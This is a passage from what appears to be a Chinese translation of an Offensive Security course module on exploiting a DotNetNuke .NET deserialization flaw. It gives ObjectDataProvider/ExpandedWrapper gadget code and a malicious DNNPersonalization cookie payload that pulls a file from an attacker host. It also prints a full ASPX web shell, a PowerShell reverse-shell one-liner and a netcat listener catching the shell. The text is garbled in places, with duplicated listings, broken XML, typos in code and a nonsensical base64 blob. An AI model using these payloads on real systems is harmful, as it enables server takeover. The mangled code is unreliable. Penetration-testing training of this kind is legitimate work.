我们将使用以下 Visual Studio 项目作为最终序列化有效载荷生成器的基础。我们将尝试将其重用为现有 DNN 代码的一部分，这样我们就不需要重复造轮子。由于这个原因，我们需要确保使用之前描述的过程，将 `DotNetUtils.dll` 和 `PresentationFramework.dll` 文件作为引用添加到我们的项目中。


图 155：我们的 PoC Visual Studio 项目已添加了必要的引用

在继续之前，我们还需要确保有一个可用的 Web 服务器以便可以通过 DNN 漏洞下载任意文件。我们将使用 Kali 虚拟机来实现此目的。

```bash
$kali@kali$ ifconfig eth0
eth0: flags=418<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
       inet 192.168.2.10 mask 255.255.255  broadcast 192.168.2.255
       inet fe80::20c:29ff:fe36:6c6e scope link dynamic  Ethernet
       ether addr 00:00:5c:29:2b:6c:70  txlen 1000  mtu 1500
       RX packets:0  bytes:0 collerrors:0 dropped:0
```

图 156：使用 Kali 实例

```csharp
using System;
using System.IO;
using System.Serialization;
using System.Windows.Data;

namespace DNNPS
{
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider myDPP = new ObjectDataProvider();
            myDPP.ObjectInstance = new FileSystemUtils();
            myDPP.MethodName = "Pullfile";
            myDPP.MethodParameters.Add("http://192.168.2.23/html/myFile.txt");
            myDPP.MethodParameters.Add("C:/inetpub/wwwroot/dotnetuke/PullFile.txt");
            Console.WriteLine("Done!");
        }
    }
}
```

图 157：使用 Kali 实例

通过这一点，让我们来看：

- 创建一个 `ObjectDataProvider` 实例
- 实例化 `FileSystemUtils`
- 指令调用 `Pullfile` 方法
- 传递两个参数给 `http://192.168.2.23/html/myFile.txt` 和 `C:/inetpub/wwwroot/dotnetuke/PullFile.txt`

在列表 255 的第 1-5 行中，我们首先定义了所需的 `using` 指令。然后在第 13 行，我们启动了应用程序。第一个参数指向我们的 Kali 服务器 IP 地址，第二个参数是下载文件的保存路径。我们将在 Visual Studio 中编译并调试此应用程序。


图 158：在 dnSpy 中命中入口

从这里，在程序集管理器（左窗格）中，我们看到了许多加载的程序集。由于我们正在验证对 `ObjectDataProvider` 的分析，我们导航到 `PresentationFramework` 程序集中的 `System.Windows.Data.QueryWorker` 函数，并在 `InvokeMethodOnInstance` 调用处设置断点。最后我们将让进程继续运行直到命中此断点。

图 159：对 `InvokeMethodInstance` 的调用被触发

如果我们现在查看 dnSpy 中的调用堆栈窗口，我们将看到代码的执行完全符合预期。

图 160：`ObjectDataProviderMethodName.set` 在静态分析期间触发了调用链

## 高级 Web 攻击与利用

```
kali@kali:~ sudo tail -f /var/log/apache2/access.log
192.168.2.208 - [Sep/2018-12-13:57:30 -0700] "GET /myODPTest.txt HTTP/1.1" 200 266 - -
```

图 16：Web 服务器日志显示代码执行成功


图 102：PoC 已在 DNN 服务器上演示了 `ObjectDataProvider` 类的实例

此时，我们已经证明了通过设置适当属性，`ObjectDataProvider` 类确实可以触发 `FileSystemUtil` 方法。因此，我们剩下的唯一工作就是尝试序列化此对象，并验证我们是否可以在反序列化期间触发相同的事件链。如果这样做成功，我们将继续尝试在 `DNNPersonalization` 代码中使用相同的对象。

### 7.6.4 练习

1. 重复上一节描述的步骤。使用单步调试，通过 `MethodName` 属性设置器的调用来跟踪代码执行链。
2. 验证 `ObjectDataProvider` 在我们的示例中触发了三次该方法。检查每个顺序的调用堆栈，以理解它们之间的差异。

#### 7.6.5 `ObjectDataProvider` 的序列化

正如我们在模块早早提到的，我们的 `DNNPersonalization` 代码有效载荷必须是 XML 格式。由于我们已经演示了如何使用 `XmlSerializer` 类序列化对象，我们可以从列表 255 中将其添加到应用程序中。然而，根据我们之前的分析，我们知道 `DNNPersonalization` cookie 必须是特定格式才能到达反序列化函数。具体来说，它必须是带有 "item" 标签的 "profile" 节点，其中包含一个描述被封装对象的 "type" 属性。与其尝试手动重构它，我们可以重用最初创建该代码值的 DNN 函数。该函数名为 `SerializeDictionary`，位于 `DotNetuke.Common.Utilities.XmlUtils` 命名空间。


图 16：处理 `DNNPersonalization` 代码值的类实现

考虑到这一点，我们的应用程序源代码可能如下所示：

```csharp
01: using System;
02: using System.IO;
03: using System.Xml.Serialization;
04: using DotNetuke.Common.Utilities;
05: using System.Data;
06: using System.Collections;
07:
08: namespace ODDeserializer
09: {
10:     class Program
11:     {
12:         static void Main(string[] args)
13:         {
14:             ObjectDataProvider myOD = new ObjectDataProvider();
15:             myOD.ObjectInstance = new FileSystemUtils();
16:             myOD.MethodName = "Pullfile";
17:             myOD.MethodParameters.Add("http://192.168.2.238/myODTest.txt");
18:
19:             myOD.MethodParameters.Add("C:/inet/webroot/dotnetuke/PullFile.txt");
20:
21:             Hashtable table = new Hashtable();
22:             table["TableEntry"] = myOD;
23:             String path = "DNNPersonalization=" +
24:             XmlUtils.SerializedDictionary(table, "profile");
25:             StreamWriter writer = new
26:             StreamWriter("C:\Users\Public\PullFileTest.txt");
24:     writer.Write(payload);
25:     writer.Close();
26:     Console.WriteLine("Done!");
27:     }
28:  }
30: }
```

列表 256 - `ObjectDataProvider` 实例的序列化

从 20 行开始，我们创建一个 `Hashtable` 实例，并添加一个名为 "TableEntry" 的条目，我们将 `ObjectDataProvider` 实例赋值其中。我们使用 DNN 函数序列化整个对象，同时提供所需的 "profile" 节点名称。最后，我们将 cookie 名称 le 接到结果字符串之前，并将最终的 cookie 值保存到文件中。

如果我们编译新的概念验证并在 dnSpy 调试器下运行，将会遇到以下消息。


图 164：当我们尝试序列化对象时发生了序列化错误

如果我们深入查看 `_innerException.message` 值，可以看到序列化器没有意外 `FileSystemUtils` 类实例（见图 165）。

| 名称 | 值 | 类型 |
| :--- | :--- | :--- |
| `StackTrace` | 在未处理异常时无法评估 | `string` |
| `TargetSite` | 在未处理异常时无法评估 | `string` |
| `WatsonBuckets` | 在未处理异常时无法评估 | `string` |
| `className` | `null` | `System.Collections` |
| `data` | `null` | `object` |
| `dynamicMethods` | `null` | `System.Reflection.MethodBase` |
| `exceptionString` | `null` | `string` |
| `helpURL` | `null` | `int` |
| `result` | `0x00000000` | `IntPtr` |
| `message` | 序列化器没有意外 `FileSystemUtils` | `string` |
| `safeSerialization` | `null` | `System.Runtime.Serialization` |
| `remoteTrace` | `null` | `string` |

图 165：抛出异常的详情

## 高级 Web 攻击与利用

任意类型。这是通过 `ExpandedWrapper` 类实现的，该类代表一个泛型类型。对我们最重要的是，该类的构造函数允许我们指定封装在给定实例中的对象类型。这正是我们需要的，以便使 `XmlSerializer` 能够正确序列化对象，并解决我们之前遇到的问题。

本质上，我们可以使用此类将源对象（`ObjectDataProvider`）封装成一个新的对象类型，以及我们需要的属性（`ObjectDataProvider.MethodName` 和 `ObjectDataProvider.MethodParameters`）。这组信息被分配给 `ExpandedWrapper` 实例，这将允许它们被 `XmlSerializer` 序列化。同样，这满足了 `XmlSerializer` 的局限性，因为它无法序列化类方法，只能序列化公共属性和字段。

让我们看看在实际操作中它是怎样的：

```assembly
01: using System;
02: using System.ID;
03: using DotNetNuke.Common.Utilities;
04: using System.Collections;
05: using System.Data.Services.Internal;
06: using System.Windows.Data;
07:
08: namespace ExpWrapSerializer
09: {
10:     class Program
11:     {
12:         static void Main(string[] args)
13:         {
14:             Serialize();
15:         }
16:
17:         public static void Serialize()
18:         {
19:             ExpandedWrapper<FileSystemUtils, ObjectDataProvider> myExpWrap = new ExpandedWrapper<FileSystemUtils, ObjectDataProvider>();
20:             myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
21:             myExpWrap.ProjectedProperty0.Object = new FileSystemUtils();
22:             myExpWrap.ProjectedProperty0.MethodName = "PullFile";
23:
24: myExpWrap.ProjectedProperty0.MethodParameters.Add("http://192.168.1.238/ODOPTTest.txt");
25:
26: myExpWrap.ProjectedProperty0.MethodParameters.Add("c:/inetpub/www/root/dotnetnuke/pullfileTest.txt");
27:
28: Hashtable table = new Hashtable();
29: table["TableEntry"] = myExpWrap;
30: String payload = XmlUtil.SerializedDictionary(table, "profile");
31: TextWriter writer = new StreamWriter("C:\\Users\\Public\\ExpWrap.txt");
32: writer.Write(payload);
32:      writer.Close();
33:
34:      Console.WriteLine("Done!");
35:
36:      }
37:      }
38: }
```

### 列表 258 - 序列化 `ExpandedWrapper` 对象

在列表 258 的第 19 行开始，我们可以看到通过直接使用 `ObjectDataProvider`，我们现在正在实例化 `ExpandedWrapper<FileSystemUtils,ObjectDataProvider>` 类型的对象。此外，我们使用泛型 `ProjectedProperty` 创建了一个 `ObjectDataProvider` 实例。代码读取者的视角应该是：

如果我们编译并执行此代码，我们将看到执行过程中没有产生异常，并且我们的 Web 服务器处理了相应的 HTTP 请求。

序列化后的对象如下：


```xml
<profile><item key="TableEntry">
type="System.Data.Internal.ExpandedWrapper[2[[DotNet.Common.Utilities.FileSystemUtils,DotNetNuke,Version=9.1.0.367,Culture=neutral,PublicKeyToken=null],[System.Windows.Data.DataProvider,PresentationFramework,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b31f856ad364e2535],[System.Data.Services,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b77ac5c65193daae8]]=ExpandedWrapperFileSystemUtilsObjectDataProvider xmlns:xml="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema"><ProjectedProperty key="ObjectInstance" method="FullFile" type="anyType"><MethodParameters><any type="anyType" xsi:type="xsd:string="http://www.w3.org/1998/xlink/myDPTest.txt"type="anyType"></MethodParameters></ProjectedProperty></ExpandedWrapperFileSystemUtilsObjectDataProvider>
</item></profile>
```

### 列表 259 - 序列化的 `ExpandedWrapper` 实例

我们的目标是确保序列化对象可以在 DNN Web 应用程序中被正确反序列化。我们将在示例中通过实现该功能展示这一点。

```assembly
01: using System;
02: using System.IO;
03: using DotNetNuke.Common;
04: using DotNetNuke.Common;
05: using System.Collections;
06: using System.Data.Services.Internal;
07: using System.Windows.Data;
08:
09: namespace ExpWrapDeserializer
10: {
11:     class Program
12:     {
13:         static void Main(string[] args)
14:         {
15:             //Serialize();
16:             Deserialize();
17:         }
18:
19:         public static void Deserialized(
20:         {
21:             string xmlSource = 
22:             System.IO.File.ReadAllText("C:\\Users\\Public\\ExpWrap.txt");
23:             Deserialize(xmlSource);
24:         }
25:
26:         public static void Deserialized()
27:         {
28:             ExpandedWrapper<FileSystemUtils, ObjectDataProvider> myExpWrap =
29:             ExpandedWrapper<FileSystemUtils, ObjectDataProvider>();
30:             myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
31:             myExpWrap.ProjectedProperty0.Object = new FileSystemUtils();
32:             myExpWrap.ProjectedProperty0.MethodName = "PullFile";
33:
34:             myExpWrap.ProjectedProperty0.MethodParameters.Add("http://192.168.1.238/ODOPTTest.txt");
35:
36:             myExpWrap.ProjectedProperty0.MethodParameters.Add("c:/inetpub/www/root/dotnetnuke/pullfileTest.txt");
37:
38:             Hashtable table = new Hashtable();
39:             table["TableEntry"] = myExpWrap;
40:             String payload = XmlUtil.SerializedDictionary(table, "profile");
41:             TextWriter writer = new StreamWriter("C:\\Users\\Public\\ExpWrap.txt");
42:             writer.Write(payload);
43:             writer.Close();
44:
45:             Console.WriteLine("Done!");
46:         }
47:     }
48: }
```

在列表 258 的第 19 行开始我们可以看到通过直接使用 `ObjectDataProvider`，我们现在正在实例化 `ExpandedWrapper<FileSystemUtils,ObjectDataProvider>` 类型的对象。此外，我们使用泛型 `ProjectedProperty` 创建了一个 `ObjectDataProvider` 实例。代码读取者的视角应该是：

如果我们编译并执行此代码，我们将看到执行过程中没有产生异常，并且我们的 Web 服务器处理了相应的 HTTP 请求。

序列化后的对象看起来像：

（此处省略 XML 内容，同上）

在列表 260 的第 19 行开始，通过 `Deserialize`，我们正在实例化 `ExpandedWrapper<FileSystemUtils,ObjectDataProvider>` 类型的对象。此外，我们使用泛型 `ProjectedProperty` 创建了一个 `ObjectDataProvider` 实例。代码读取者的视角应该是：

如果我们编译并执行此代码，我们将看到执行过程中没有产生异常，并且我们的 Web 服务器处理了相应的 HTTP 请求。

序列化后的对象看起来像：

（此处省略 XML 内容，同上）

现在我们已经创建了一个成功且可用的负载，可以将其整合并测试我们的 DNN 服务器了。

### 7.6.7 练习

重复上一节描述的步骤，并确保生成的负载（payload）按预期工作。

## 7.7 整合一切

此时，我们可以设置入口攻击，并尝试利用此漏洞获取反向 shell（reverse shell）。为了实现这一点，我们将使用在攻击 Kali 虚拟机上的 ASPX 命令 shell。我们将将其复制到 Web 根目录，并确保我们对其设置了正确的权限。

```
kali@kali:~$ locate cmdasp.aspx
/usr/share/webshell/aspx/cmdasp.aspx
kali@kali:~$ cat /usr/share/webshell/aspx/cmdasp.aspx
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace=System.Diagnostics %>
<%@ Import Namespace=System.IO %>
<script Language="C#" runat="server">
void Page_Load(object sender, EventArgs e)
{
    string ExecuteCmd(string arg)
    {
        ProcessStartInfo psi = new ProcessStartInfo();
        psi.FileName = "cmd.exe";
        psi.Arguments = "/c " + arg;
        psi.RedirectStandardOutput = true;
        psi.UseShellExecute = false;
        Process p = Process.Start(psi);
        StreamReader stdmr = p.StandardOutput;
        string s = stdmr.ReadToEnd();
        stdmr.Close();
        return s;
    }
void cmdExe_Click(object sender, System.EventArgs e)
{
    Response.Write("<pre>");
    Response.Write(Server.HtmlEncode(ExecuteCmd(txt.Text)));
    Response.Write("</pre>");
}
</script>
<html>
<HEAD>
<title>asen.net webshell</title>
</HEAD>
<<body>
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txt" style="Z-Index: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-Index: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 30px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</html>
```

<!-- Contribute by Dominic Cello (http://digitalapocalypse.blogspot.com/) --- -->
<!-- http://michaelaldrow.org 04/2017 --- -->

```
kali@kali: sudo cp /usr/share/webshell/asp/cmdasp.asp /var/www/html/
kali@kali: sudo chmod 644 /var/www/html/cmdasp.asp
```

### 列表 261 - 设置攻击服务器

我们将再次使用序列化 `ExpandedWrapper` 的方法，确保我们修改了 `MethodName` 中使用的 URL 和文件名。结果，我们将看到一个类似于下面的序列化对象：

```xml
<profile key="ExpandedEntry">
<type type="System.Data.Services.Internal.ExpandedWrapper_2[DotNet.Common.Utilities.FileSystemUtils,DotNetNetwork,Version=9.1.0.367,Culture=neutral,PublicKeyToken=null,System.Windows.Data.ObjectDataProvider,PresentationFramework,Version=4.0.0,Culture=neutral,PublicKeyToken=31f3b85ad3642e35],System.Data.Services,Version=4.0.0,Culture=neutral,PublicKeyToken=b77a5c63594ae08">ExpandedWrapperFileSystemUtilsObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<ProjectedProperty>
<ObjectInstance>
<MethodName>PullFile</MethodName>
<MethodParameters>
<anyType>
<xsi:type type="xsd:string">http://192.168.2.238/cmdasp.asp</xsi:type></anyType>
<xsi:type type="xsd:string">C:\inetpub\wwwroot\dotnet4\cmdasp.asp</xsi:type></anyType>
</MethodParameters>
</ProjectedProperty>
</ExpandedWrapperFileSystemUtilsObjectDataProvider>
</ObjectInstance>
</profile>
```

### 列表 262 - 使用 ASPX 命令写入我们 Kali 虚拟机的 DNS 服务器的负载

请记住，我们能够写入 DNS 根目录是因为我们赋予了 IIS 账户权限，DNS 的安装说明如下：

> 用户账户必须对根网站目录及其子目录具有“读取”、“写入”和“修改”权限（这允许应用程序创建文件/文件夹并更新其配置文件）

现在我们可以像在本模块早期那样发送 HTTP 请求并将其发送到目标服务器。这次，我们将通过 DNN erialization cookie 值使用我们的序列化对象。

Copyright © 2019 Offensive Security Ltd. All rights reserved.


# 高级 Web 攻击与利用

## 请求

```
GET /cmdasp.asp HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, Gecko) Chrome/68.0.3440.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9
Cookie: DNNerialization="profile";item="ExpandedEntry";type="System.Data.Services.Internal.ExpandedWrapper[DotNet.Common.Utilities.FileSystemUtils,DotNetNetwork,Version=9.1.0.367,Culture=neutral,PublicKeyToken=null,System.Windows.Data.ObjectDataProvider,PresentationFramework,Version=4.0.0,Culture=neutral,PublicKeyToken=31f3b85ad3642e35],System.Data.Services,Version=4.0.0,Culture=neutral,PublicKeyToken=b77a5c63594ae08">ExpandedWrapperFileSystemUtilsObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema"><MethodName>PullFile</MethodName><Parameter type="xsd:string">http://192.168.2.238/cmdasp.asp</Parameter><Parameter type="xsd:string">C:\inetpub\wwwroot\dotnet4\cmdasp.asp</Parameter></ProjectedProperty></ExpandedWrapperFileSystemUtilsObjectDataProvider>
Connection: close
```

![d1c2c08c6e469e3ba5fa2d2a_0]

到此为止，一切都应该按预期工作，我们的恶意负载已经执行。我们可以通过查看 Web 服务器日志来确认 `ASPX` shell 已下载：

```
192.168.2.238 - [07/Sep/13:31] "GET /cmdasp.asp HTTP/1.1" 200 -
```

列表 263 - Web 下载了恶意 `ASPX` shell

最后，我们可以通过访问新上传的文件验证我们的攻击。

![d1c2c08c6e469e3ba5fa2d2a_0]

![d1c2c08c6e469e3ba5fa2d2a_1]

图 169: 可以在 DNS 服务器上访问 `ASPX` shell

此时，我们可以执行任何选择的命令。为了结束攻击，我们将执行一条 `PowerShell` shell 命令并确保它在我们的 `Kali` 虚拟机上运行。

以下列表显示了我们将使用的 `PowerShell` shell 单行命令：

```
$client = New-Object System.Net.Sockets.TCPClient("192.168.2.238",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){$type = New-Object System.Text.Encoding;ASCII;$type.GetString($bytes,0,$i);$sendback=(iex $i 2>&1|Out-String);$sendback=$sendback + 'PS ' + ($pwd).Path + ' > ';$sendbyte=$type.GetBytes($sendback);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```

为了向 shell 传递复杂命令时避免任何引号和编码问题，我们将将其编码为 `base64` 格式，因为 `PowerShell` 执行 `-EncodedCommand` 参数，这将强制解释器解释 `base64` 编码的可执行文件。请注意 `PowerShell` 使用的是小端 `UTF-16` 编码，这体现在以下列表中：

```
kali@kali: cat powershell.txt
$client = New-Object System.Net.Sockets.TCPClient("192.168.2.238",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){$type = New-Object System.Text.Encoding;ASCII;$type.GetString($bytes,0,$i);$sendback=(iex $i 2>&1|Out-String);$sendback=$sendback + 'PS ' + ($pwd).Path + ' > ';$sendbyte=$type.GetBytes($sendback);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()
kali@kali: icenc -f ASCII -UTF-16 powershell.txt | base64 -d "JAABABABABQAAABgABoABQABAEEABgAGQYABgABUABQABAEWAB5AMHIAABALGBABQAAQIAABgABUABgABYABoABUABgABUABQAEWAB5AMHIAABALGBABQAAQIAABgABUABgABYABoABUABgABUABQAEWAB5AMHIAABALGBABQAAQIAABgABUABgABYABoABUABgABUABQAEWAB5AMHIAABALGBABQAAQIAABgABUABgABYABoABUABgABUABQAEABABABjABgABABABABABABABABABABABABABABABABgABYABABABUABABABUABQAEWAB5AMHIAABALGBABQAAQIAABgABUABgABYABoABUABgABUABQAEWAB5AMHIAABALGBABQAAQIAABgABUABgABYABoABUABgABUABQAEWAB5
```

# 高级网络攻击与利用

列表 265 - 用于触发反向 shell 的命令

最后，我们的利用程序已经完成，我们已经成功收到了来自请求的反向 shell。

```
kali@kali:~# nc -lvp 4444
[sudo] password for kali: listening on [4444] ...
connect to [192.168.2.238] from WIN-2TU88Q2NS.localdomain [192.168.2.208] 54654
whoami
iispo@defaultappool
PS C:\windows\system32> exit
kali@kali:~#
```

列表 267 - `PowerShell` 反向 shell 将执行，我们收到了一个

### 7.7.1 练习

- 1. 重复上一节描述的攻击并获取反向 shell。
- 2. 原本的 `Mimikatz` 演示应该让你能够从受漏洞的 DNS 服务器泄露信息。生成一个能够实现该目标的利用载荷（`payload`）。

AWASE Copyright ©2019 OffSec Services Ltd. 版权所有。

265

## 7.8 yoserial.net

现在我们已经手动分析并利用了此漏洞，并对 `ObjectProvider` `get`（`gadget`）机制有了深入理解，我们需要提到一个可以为我们自动化许多此类任务的工具。以原始 `yoserial` `Java` 载荷生成器为启发，Alvaro Muñoz 还创建了 `yoserial.net` 载荷生成器，正如名称所示，它专门针对 `.Net` 应用中不安全的对象序列化。

除了本模块提供的 `gadget` 之外，`yoserial.net` 还包含了额外的 `gadget`，如果受漏洞应用程序存在某些特定条件，这些 `gadget` 对攻击者将非常有用。我们强烈建议你检查它提供的载荷以及该工具的工作原理，这将增强你的知识，并允许你可能利用多种 `.Net` 漏洞。

### 7.8.1 .Net 进阶

在本模块中，我们重点关注了分析的 `XmlSerializer` 类。如之前提到的，在 `.Net` 中存在其他序列化器和格式化器，除了 `ObjectDataProvider` 之外还有其他“gadgets”可以用于获取代码执行。虽然这一版本的 `DNN` 中没有发现序列化漏洞，但我们引入了一个额外的漏洞，仅作为练习材料。

为了利用此漏洞，我们鼓励你关注 `DNN` 应用程序中未授权的部分。到此时，你应该对 `.Net` 中 `gadget` 的工作原理有了通理解，并应该能够成功利用此漏洞。`yoserial.net` 载荷生成器应该为你提供许多可以研究的潜在攻击向量思路。

### 7.8.2 Java 进阶

虽然我们在本课程中没有讨论 `Java` 反序列化漏洞，但值得提到，你实验室中的 `ManageEngine` `Applications` `Manager` 实例中存在此类漏洞。我们鼓励你熟悉 `Java` 版本的 `yoserial`，并尝试识别和利用这一漏洞。

## 7.9 总结

在本模块中，我们分析了 `DNN` 平台中的一个漏洞，它清楚地证明了 `.NET` 应用可能会遭受与任何其他语言类似的序列化问题。虽然序列化漏洞在 `PHP` 和 `Java` 应用中发现得频繁，但我们鼓励你在面对 `.NET` 应用时不要忽视这类漏洞，因为它们可能会产生关键性的影响。

> 44 https://github.com/frohoff/yoserial

> 45 https://github.com/pwntester/yoserial.net
